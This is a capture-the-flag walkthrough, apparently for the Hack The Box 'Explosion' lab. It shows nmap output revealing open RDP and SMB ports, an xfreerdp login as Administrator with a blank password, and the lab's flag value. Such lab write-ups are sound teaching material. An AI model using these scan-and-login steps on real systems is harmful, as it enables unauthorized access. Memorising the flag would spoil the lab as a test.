

After starting the machine my IP is `10.129.1.13`

## Reconnaissance

First thing we need to enumerate the open port using `nmap` . This will help us to identify available service and potential attack vectors.

```bash
└─$ nmap -sC -sV -T5 10.129.1.13 --stats-every=5s
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-04 14:36 WIB
Nmap scan report for 10.129.1.13
Host is up (0.26s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2025-02-04T07:37:17+00:00
|_ssl-date: 2025-02-04T07:37:26+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2025-02-03T07:35:47
|_Not valid after:  2025-08-05T07:35:47
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-04T07:37:18
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.17 seconds
```

As you can see this is Windows machine, identified as `Explotion` . The port `3389` is open, indicating service `Remote Desktop Protocol (RDP)`.  Other ports include `135` , 139, and 445, typically this is associated with the Windows networking such as SMB service. The system is running on `Windows Server (version 10.0.17763)`.

## Foothold

Given the RDP `3389/tcp` port is open, we can try attempt to gain access via remote desktop.

We can try to connect the remote desktop by using `xfreerdp` tool, so we can get access to the target machine by using this command.

```bash
┌──(w1thre㉿hackbox)-[/mnt/…/cybersec/hackthebox/starting_point/explosion]
└─$ xfreerdp /u:Administrator /v:10.129.1.13
[14:49:12:826] [57796:57797] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[14:49:12:826] [57796:57797] [WARN][com.freerdp.crypto] - CN = Explosion
Password: 
```

| **Option** | **Descriptions** |
| --- | --- |
| `/u:Administrator` | Specifies the username, in this case as `Administrator` |
| `/v:10.129.1.13` | Set the target IP Address |

In this case, The password field is leave it blank due to a possible misconfiguration, allowing us to access the machine without authentication.

## Flag

Upon successfully logged in, we can see at the desktop there is a `flag.txt` file containing the flag that we looking for.



```bash
951fa96d7830c451b536be5a6be008a0
```

## Useful Links

https://medium.com/@laupeiip/how-to-rdp-into-a-tryhackme-windows-machine-with-your-kali-vm-f637cf7422d1